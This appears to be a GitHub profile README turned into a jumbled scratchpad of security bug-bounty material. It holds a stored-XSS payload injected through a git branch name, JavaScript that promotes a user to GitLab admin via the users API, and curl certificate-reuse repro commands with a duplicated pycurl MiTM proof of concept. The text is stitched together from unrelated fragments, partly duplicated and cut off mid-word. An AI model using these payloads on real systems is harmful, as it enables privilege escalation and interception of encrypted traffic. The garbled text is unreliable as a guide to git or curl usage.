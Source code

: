 - 👋 Hi, I’m @rio-s-molana
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
rio-s-molana/rio-s-molana is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
echo "# rio-s-molana" >> README.md 
git init 
git add README.md 
git commit -m "first commit" 
git branch -M main 
git remote add Origin https://github.com/rio-s- molana/rio-s-molana.git
 git push -u asal main
	
<iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>, misalnya,git push origin master:"'><iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>"

https://gitlab.com/yvvdwf/store-xss-merge-request/-/merge_requests/1
var user_id=5212593;
console.log(`Set user ${user_id} to admin`);

var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = console.log;
xhttp.open("PUT", `/api/v4/users/${user_id}?admin=true`, true);
xhttp.send();
Improper Control of a Resource Through its Lifetime might fit.
CURLOPT_ISSUERCERT
CURLOPT_PINNEDPUBLICKEY sha256//
cp /etc/ssl/certs/ca-certificates.crt ca.crt
touch CA.crt
curl --capath /dev/null --cacert $PWD/ca.crt https://curl.se --next --capath /dev/null --cacert $PWD/CA.crt https://curl.se

cp /etc/ssl/certs/ca-certificates.crt ca.crt
touch CA.crt
curl --capath /dev/null --cacert $PWD/ca.crt https://curl.se --next --capath /dev/null --cacert $PWD/CA.crt https://curl.se
cp /etc/ssl/certs/ca-certificates.crt ca.crt
touch CA.crt
curl --capath /dev/null --cacert $PWD/ca.crt https://curl.se --next --capath /dev/null --cacert $PWD/CA.crt https://curl.se     blobcmp(data->cert_blob, needle->cert_blob) &&
     blobcmp(data->ca_info_blob, needle->ca_info_blob) &&https://github.com/curl/curl/commit/cac5374298b3e79405bbdabe38941227c73a4c96
https://github.com/curl/curl/commit/cb4e2be7c6d42ca0780f8e0a747cecf9ba45f151
#!/usr/bin/env python3

import pycurl

def main():
    # simulated attacker controlled connection with crafted CA.crt file
    c1 = pycurl.Curl()
    c1.setopt(pycurl.URL, "https://curl.se")
    c1.setopt(pycurl.CAINFO, '/tmp/CA.crt')

    # simulated connection in another security context that the attacker tries to MiTM
    c2 = pycurl.Curl()
    c2.setopt(pycurl.URL, "https://curl.se")
    c2.setopt(pycurl.CAINFO, '/tmp/ca.crt')

    m = pycurl.CurlMulti()
    m.add_handle(c1)

    while True:
        ret, num_handles = m.perform()
        if ret != pycurl.E_CALL_MULTI_PERFORM: break
    while num_handles:
        ret = m.select(1.0)
        if ret == -1: break
        while True:
            ret, num_handles = m.perform()
            if ret != pycurl.E_CALL_MULTI_PERFORM: break

        numq, oklist, errlist = m.info_read(2)
        if c1 in oklist:
            m.add_handle(c2)

if __name__ == "__main__":
    main()openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 to cre
#!/usr/bin/env python3

import pycurl

def main():
    # simulated attacker controlled connection with crafted CA.crt file
    c1 = pycurl.Curl()
    c1.setopt(pycurl.URL, "https://curl.se")
    c1.setopt(pycurl.CAINFO, '/tmp/CA.crt')

    # simulated connection in another security context that the attacker tries to MiTM
    c2 = pycurl.Curl()
    c2.setopt(pycurl.URL, "https://curl.se")
    c2.setopt(pycurl.CAINFO, '/tmp/ca.crt')

    m = pycurl.CurlMulti()
    m.add_handle(c1)

    while True:
        ret, num_handles = m.perform()
        if ret != pycurl.E_CALL_MULTI_PERFORM: break
    while num_handles:
        ret = m.select(1.0)
        if ret == -1: break
        while True:
            ret, num_handles = m.perform()
            if ret != pycurl.E_CALL_MULTI_PERFORM: break

        numq, oklist, errlist = m.info_read(2)
        if c1 in oklist:
            m.add_handle(c2)

if __name__ == "__main__":
    main()
